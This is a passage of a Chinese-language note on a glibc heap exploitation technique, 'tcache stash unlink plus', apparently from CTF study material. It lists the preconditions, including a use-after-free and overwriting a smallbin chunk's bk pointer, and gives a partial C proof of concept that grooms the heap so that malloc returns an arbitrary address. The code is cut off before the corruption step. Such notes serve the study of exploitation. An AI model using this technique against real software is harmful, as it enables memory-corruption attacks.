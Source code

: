 ### 实现效果

将任意`chunk`挂入`tcache`，再次`malloc`即可申请，总的来说就是申请任意地址`chunk`

### 利用方式

- 对于同一个大小的`chunk`，确保`tcache`中和`smallbin`要修改处的`chunk`之和至少为`7`个，详情看注
- `smallbin`中的`chunk`至少有两个
- 能够修改`smallbin`中的`chunk`的`bk`为要申请的地址减去`0x10`，具体看注
- 要申请的地址`+8`处指向的地址必须可写（注意不是本身）
- 由于需要将`chunk`放置到`smallbin`，不能有`chunk`申请大小的限制
- 进行至少一次`calloc`

### 注：tcache和smallbin的堆风水

- 可以参照`tcache stash unlink`普通版，此处仅仅只需要改为和为`7`个

![tcache_stash_unlink_calc2](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202402231540856.png)

### 常用触发方式

至少需要`UAF`

### 图解

![tcache_stash_plus](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/tcache_stash_plus.png)

### POC

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <assert.h>


int main(){
    size_t secret = 0;
    printf("We want to malloc a chunk from stack. The addr of it is 0x%lx.\n", (unsigned long)&secret);

    size_t* chunks[0x10];
    
    // 申请8个chunk，前7个待会释放到tcache
    for(int i=0 ; i<8; i++){
        chunks[i] = malloc(0x100);
    }

    // 申请一个0x20来防止两个smallbin的合并
    malloc(0x20);
    
    // 最后一个smallbin
    chunks[8] = malloc(0x100);
    
    // 防止合并top
    malloc(0x20);
    
    // 释放这9个大小为0x100的chunk，其中chunk[7]和chunk[8]位于unsortedbin
    for(int i =0; i<9; i++){
        free(chunks[i]);
    }
    
    // 将unsortedbin里面的chunks添加到smallbin
    malloc(0x200);
```